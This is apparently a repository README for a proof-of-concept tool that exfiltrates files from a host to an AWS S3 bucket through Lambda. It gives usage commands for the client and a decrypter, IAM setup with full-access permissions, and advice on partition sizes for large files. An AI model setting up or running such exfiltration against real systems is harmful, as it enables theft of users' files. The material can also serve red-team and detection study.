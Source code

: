 # AWS Lambda Exfil Tool [PoC]

Here we have a small PoC on how the program works  

![StandaloneClientGif](standaloneClient.gif)

## About
The program follows the following diagram. Explanation on how each part functions is present on standaloneClient pdf file.  

![StandaloneClient diagram](Standalone_client_1.png?raw=true "Standalone Client Diagram")


## Usage
#### Client
`py clientName.py "Path_to_file"`  
Example:  
`py clientName.py "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py "Hostname" "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py "ID4A0E" "test"`
## Setup

###### Note: Use python 3.x  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

###### Run `pip install -r requirements.txt`

###### Run `py setup.py` and follow the prompts

#### Partitions
Partition size is by default 100 bytes, this can be changed by accessing standaloneClient_template.py and modifiying the value. This could be helpful when exfiltrating large files, as the time it would take to exfiltrate 1GB of data with 100B partitions will be really significant

#### Supported Files
The tool supports txt, csv and xlsx files but every file that is text based (For example a .py file) will be exfiltrated succesfully
